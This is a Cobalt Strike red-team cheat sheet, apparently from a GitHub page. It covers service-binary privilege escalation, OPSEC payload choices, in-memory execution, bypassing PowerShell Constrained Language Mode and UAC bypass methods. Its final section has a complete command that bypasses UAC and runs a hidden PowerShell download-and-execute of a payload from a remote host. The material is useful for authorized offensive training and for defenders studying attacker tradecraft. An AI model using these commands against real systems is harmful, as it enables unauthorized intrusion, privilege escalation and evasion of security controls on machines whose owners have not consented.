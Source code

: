#### Create service binary
- Used for privilege escalation with services
- Attacks --> Packages --> Windows Executable (S) and selecting the Service Binary output type.
- TIP:  I recommend the use of TCP beacons bound to localhost only with privilege escalations

#### OPSEC payloads
- Staged payloads are good if your delivery method limits the amount of data you can send. However, they tend to have more indicators compared to stageless. Given the choice, go stageless.
- The use of 64-bit payloads on 64-bit Operating Systems is preferable to using 32-bit payloads on 64-bit Operating Systems.

## Command Execution
#### Execute cmd command
```
run <COMMAND>
```

#### Execute PowerShell command
```
powershell <COMMAND>
```

#### Execute PowerShell command through powerpick
- Bypasses Constrained Language Mode
```
powerpick $ExecutionContext.SessionState.LanguageMode
```

#### Execute assembly in memory
```
execute-assembly <PATH TO EXE>
```

#### Load PowerShell script
```
powershell-import <FILE>
```

## UAC Bypass
- https://github.com/cobalt-strike/ElevateKit
#### UAC bypass
- Typing `elevate` and then tab lets you cycle through the methods.
```
elevate <METHOD> <LISTENER>
elevate uac-schtasks tcp-local
```

#### UAC bypass method 2 runasadmin
```
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
connect localhost 4444
```
